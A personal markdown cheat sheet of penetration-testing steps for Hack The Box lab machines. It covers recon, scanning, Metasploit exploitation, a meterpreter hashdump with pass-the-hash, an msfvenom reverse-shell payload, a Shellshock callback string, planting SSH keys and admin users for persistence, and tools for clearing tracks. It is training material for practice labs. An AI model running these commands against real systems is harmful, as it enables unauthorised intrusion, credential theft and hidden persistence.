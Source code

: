 # Recon
- whois
- geoip-bin
- geoiplookup $ip
- theharvester -d $domain -l 500 -b google
- OSRFramework
  - usufy.py -n $target
  - mailfy.py -n $target # also checks if theyve been leaked
  - searchfy.py -n $target
  - domainfy.py -n $target
- nikto -host $ip
  - nmap -p80,443 $subnet -oG -  | nikto -h-
- openVAS ~nessus,   Greenbone Sec Assistant (gsad) GUI
  - apt install openvas
  - openvas-setup
  - omp -? 

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. searchsploit $app
         1. smb                      # 139/tcp ntbios-ssnn
         2. ftp                        
         3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
         1. crackmapexec $ip -u "$username" -H $Hash --local # pass the hash
         2. psexec.py
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
   4. `testing callbacks`
      1. shellshock
         1. () { :; }; /bin/bash -c "ping -c 3 $myip; id;"
      2. sudo tcptump -i eth9 -n icmp
   5. `keeping access `
      1. if `root`, create another admin user
      2. use tools on server to setup ssh server
      3. create keys
         1. cd .ssh
         2. echo $id_rsa.pub >> authorized_keys 
         3. known_hosts??
         4. ssh to box
         5. scp user@ip:/path . 
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt

# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. subs
      1. Sublist3r #for recon
         1. apt install sublist3r
      2. http://crt.sh 
   3. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   4. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson


# notes
smtp expn
smtp verify
snmp-check?? tool
